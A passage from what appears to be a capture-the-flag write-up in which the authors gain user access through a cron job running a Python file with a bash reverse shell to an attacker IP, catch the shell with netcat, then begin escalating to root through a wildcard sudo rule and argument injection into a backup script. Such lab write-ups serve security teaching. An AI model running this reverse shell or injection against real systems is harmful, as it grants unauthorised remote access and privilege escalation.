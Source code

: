 A common attack vector would be to execute a python file that runs a reverse shell back to our machine. Since the script is run with user privileges, the reverse shell will ensure the connection runs with the user; giving us access. To execute this, and to allow python to run bash commands, we use the `os.system()` function which allows us to execute any command. The following code is a one-liner which is able to exploit this vulnerability:

![image](https://user-images.githubusercontent.com/70077872/167413332-dadfb1b2-d2f8-4c73-a4a1-e59d99054a63.png)


`echo "import os;os.system(\"/bin/bash -c \'bash -i >& /dev/tcp/10.225.149.204/9995 0>&1\'\")" > exploit.py`

When the cronjob automatically runs the `run_files.sh` which runs the `exploit.py` file, we get a connection using `nc -nlvp 9995` for listening on any incoming connections:

![image](https://user-images.githubusercontent.com/70077872/167413710-d34f73d1-0c22-4cb5-b303-1a3cb982bb11.png)

We can then collect the flag:

![image](https://user-images.githubusercontent.com/70077872/167413907-7375442e-0738-4ab0-abaf-72f33731a871.png)

>**Flag:`IKT449{not_approved_by_IT}`**


## 5 - Root

> It is game over, the attacker got root access.
> Could you help us figure out how this happened by getting to root yourself?

Having gained user access on the machine it is smart to check if the user has any admin privileges. Executing the command `sudo -l` shows the user administrative privileges on the machine.

<img width="796" alt="image" src="https://user-images.githubusercontent.com/59768512/167270262-887ad0d2-eedc-48c9-a667-8a5d37d74742.png">

As it turns out the user account can run the command `sudo /usr/bin/python3 /home/user/safe_backup.py *`.  The `*` here essentially means that the command can end with anything. It also seems that the person adding the admin rights to the user account has been very specific on the path of the executable and the file probably to avoid having users run fabricated files and executables by manipulating pathing or altering files. Looking at the permissions of the `safe_backup.py` it is owned by the root account and can therefore not be removed or altered.

<img width="320" alt="image" src="https://user-images.githubusercontent.com/59768512/167715284-3230f41f-471d-4670-8c3b-89ac95e277c7.png">

To get some idea of what is possible, looking at the `safe_backup.py` file is probably a good place to start.

<img width="870" alt="image" src="https://user-images.githubusercontent.com/59768512/167270179-3574d9be-a110-491c-8208-d4e76893d452.png">

Looking at the code within the file it seems like it archives the whole `/home/user` folder and names it after the current datetime. It also seems like a user can provide some input on files or folders they do not want to have archived using the `--exclude` option. In this python file the user can specify these files/folders using the option `-e` and if it is present in the command the user input is put into the command using the variable `args.e`. Another thing to point out is that there seems to be sanitation on what the user enters, which means that there is a possibility for injection of something into the command.

